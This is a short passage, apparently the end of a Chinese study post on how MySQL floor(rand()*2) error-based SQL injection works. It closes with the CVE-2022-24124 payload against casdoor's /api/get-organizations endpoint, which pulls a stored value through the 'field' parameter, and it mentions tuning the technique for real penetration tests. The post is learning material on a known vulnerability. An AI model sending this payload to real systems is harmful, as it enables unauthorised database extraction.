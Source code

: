 
也就是说在实际渗透中，报错注入使用floor(rand(14)\*2)会比rand(0)效果要好。

而且如果说表中只存在一条数据，那这个时候报错注入就没法使用了，毕竟只有一条数据也不可能发生主键重复报错。

> 最后

### 对floor报错注入原理的学习缘起于casdoor-CVE-2022-24124注入漏洞payload复现的疑惑

```plain
/api/get-organizations? p=1&pageSize=10&value=e99nb&sortField=&sortOrder=&field=(select 123 from (select count (*), concat ((select (value) from flag limit 1),'~', floor (rand (14)*2)) x from (select 1 union all select 2) as t group by x) x)
```

参考文献：

[https://www.freebuf.com/articles/web/257881.html](https://www.freebuf.com/articles/web/257881.html)  
%% %% %% %%
